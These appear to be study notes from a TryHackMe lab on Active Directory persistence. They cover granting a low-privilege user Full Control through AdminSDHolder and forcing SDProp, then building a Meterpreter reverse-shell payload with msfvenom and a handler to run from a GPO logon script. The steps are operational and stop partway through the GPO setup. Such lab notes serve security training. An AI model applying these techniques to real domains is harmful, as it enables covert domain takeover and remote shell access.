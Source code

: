 ## ACLs

{% code overflow="wrap" fullWidth="true" %}
```powershell
https://docs.microsoft.com/en-us/previous-versions/technet-magazine/ee361593(v=msdn.10)
# Persisting with AdminSDHolder
runas /netonly /user:thmchilddc.tryhackme.loc\Administrator cmd.exe # from low-priv shell to not use Administrator RDP and log actual user out
Once you have an MMC window, add the Users and Groups Snap-in (File->Add Snap-In->Active Directory Users and Computers). Make sure to enable Advanced Features (View->Advanced Features). We can find the AdminSDHolder group under Domain->System
Navigate to the Security of the group (Right-click->Properties->Security)
Add our low-privileged user and grant Full Control:
    Click Add.
    Search for your low-privileged username and click Check Names.
    Click OK.
    Click Allow on Full Control.
    Click Apply.
    Click OK.
    
# SDProp -> instead of waiting 60 min, invoke the process manually
PS C:\Tools> Import-Module .\Invoke-ADSDPropagation.ps1 
PS C:\Tools> Invoke-ADSDPropagation
# Once done, give it a minute and then review the security permissions of a Protected Group such as the Domain Admins group to see our low-priv user with full control over that group
# With Full Control we could add our low-priv user to the Domain Admins group for example
```
{% endcode %}

## GPOs

The following are some common GPO persistence techniques:

* Restricted Group Membership - This could allow us administrative access to all hosts in the domain
* Logon Script Deployment - This will ensure that we get a shell callback every time a user authenticates to a host in the domain.

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Preparation
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe
# Create a <username>_script.bat with a line executing the .exe and upload both to the DC machine
# Then start MSF listener
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"

# GPO Creation -> use Domain Admin account to open the Group Policy Management (runas /credonly domain\Administrator or so)
    In your runas-spawned terminal, type MMC and press enter.
    Click on File->Add/Remove Snap-in...
    Select the Group Policy Management snap-in and click Add
    Click OK
Below the Default Domain Policy, right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as username - persisting GPO
Right-click on your policy and select Enforced. This will ensure that your policy will apply, even if there is a conflicting policy. Now you can right-click on your policy and select edit:
Get back to our Group Policy Management Editor:
    Under User Configuration, expand Policies->Windows Settings.
    Select Scripts (Logon/Logoff).
    Right-click on Logon->Properties
    Select the Scripts tab.
    Click Add->Browse.
```